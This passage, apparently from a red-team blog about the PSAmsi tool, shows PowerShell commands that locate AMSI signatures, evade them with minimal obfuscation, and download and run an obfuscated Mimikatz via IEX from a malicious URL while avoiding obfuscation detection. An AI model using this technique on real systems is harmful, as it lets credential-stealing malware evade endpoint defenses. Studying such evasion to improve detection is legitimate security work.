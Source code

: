 ```
PS > $Signatures[0]
Add-Member NoteProperty -Name VirtualProtect -Value $VirtualProtect`
PS > Get-PSAmsiScanResult $Signatures[0]
True
```

An `Invoke-Obfuscation` trick we can use to obfuscate variables is to simply wrap the variable name in curly braces:

```
PS > $ObfuscationTest = 'Add-Member NoteProperty -Name VirtualProtect -Value ${VirtualProtect}'
PS > Get-PSAmsiScanResult $ObfuscationTest
False
```

We have defeated the AMSI signature! And by only adding two characters! 

PSAmsi's `Get-MinimallyObfuscated` function automates the process of this minimal obfuscation on *each* of the signatures discovered by the `Find-AmsiSignatures` function, allowing us to successfully obfuscate and execute any malicious script:

```
PS > $ObfMimikatz = Get-MinimallyObfuscated -ScriptUri $MaliciousUrl
PS > $ObfMimikatz | IEX; Invoke-Mimikatz -Command Coffee

  .#####.   mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */
ERROR mimikatz_initOrClean ; CoInitializeEx: 80010106

mimikatz(powershell) # Coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'
```

And the best part? This minimized form of obfuscation is extremely difficult to detect:

```
PS > Measure-RvoObfuscation -ScriptExpression $ObfMimikatz

Hash                                                               Obfuscated Source
----                                                               ---------- ------
BB06698FAFC19A076041D2510897EBB88F8E2F430A2AEDFB010611BBD82DC392A2 False      <Direct>
```

Now we are using obfuscation to defeat all of the AMSI signatures, and also avoid introducing that new obfuscation metric for defenders to utilize in identifying malicious PowerShell threats that we mentioned earlier. **We minimize our obfuscation, to maximize stealth.**
